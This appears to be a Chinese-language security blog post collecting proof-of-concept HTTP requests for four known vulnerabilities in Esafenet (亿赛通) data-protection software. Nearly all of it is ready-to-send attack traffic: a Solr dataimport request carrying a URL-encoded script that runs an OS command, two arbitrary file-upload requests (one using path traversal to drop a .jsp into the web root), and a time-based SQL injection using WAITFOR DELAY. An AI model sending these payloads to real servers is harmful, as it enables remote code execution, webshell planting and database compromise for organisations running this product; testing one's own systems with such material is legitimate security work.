




# 亿赛通 4 个 Nday 漏洞 POC

**写在前面**

    前几天公众号看到亿赛通 DLP 近期有个大量接口的远程命令执行的漏洞，想起来自家也购买了这个加密软件，就顺手把历史所有的漏洞都测了一遍。最后发现有一个远程命令执行漏洞，两个任意文件上传漏洞，一个 SQL 注入漏洞。

    推送内容就直接放利用成功漏洞的 POC 和截图了。

  

**目录**  

```plain
0x01 亿赛通 dataimport 接口任意命令执行
0x02 亿赛通 UploadFileFromClientServiceForClient 接口任意文件上传
0x03 亿赛通 DecryptApplicationService2 接口任意文件上传
0x04 亿赛通 update-sql 注入
```

- - -

- - -

  

**亿赛通 dataimport 接口任意命令执行**

```plain
POST /solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22ipconfig%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20 HTTP/1.1
Host: IP: PORT
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Length: 88

<?xml version="1.0" encoding="UTF-8"?>
        <RDF>
        <item/>
        </RDF>
```


  

## 

## **亿赛通 UploadFileFromClientServiceForClient 接口任意文件上传**

```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBLAOLBAKBNDHLIGBKEOJLICAIDMGEDJKGP HTTP/1.1
Host: IP: PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type:multipart/form-data;boundary=----WebKitFormBoundarymVk33liI64J7GQaK

pentest
```


文件地址：/N0th1ng.jsp



##   

## **亿赛通 DecryptApplicationService2 接口任意文件上传**

```plain
POST /CDGServer3/DecryptApplicationService2?fileId=../../../Program+Files+(x86)/ESAFENET/CDocGuard+Server/tomcat64/webapps/CDGServer3/pentest.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host:  IP: PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=B9964151074C71F115A9C803FFF05C34
Upgrade-Insecure-Requests: 1
Content-Length: 11

pentest
```



文件地址：/CDGServer3/pentest.jsp


##   

## **亿赛通 update 接口 sql 注入**

```plain
GET /CDGServer3/workflowE/useractivate/update.jsp?flag=1&ids=1,3);WAITFOR%20DELAY%20%270:0:1%27-- HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0E05880315C89F32A53653313D83EC57; JSESSIONID=ACDE6D30E6BCEC22E1F90536FEEBD951
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

delay 了 4 秒，可能语句不止执行一次

  



- - -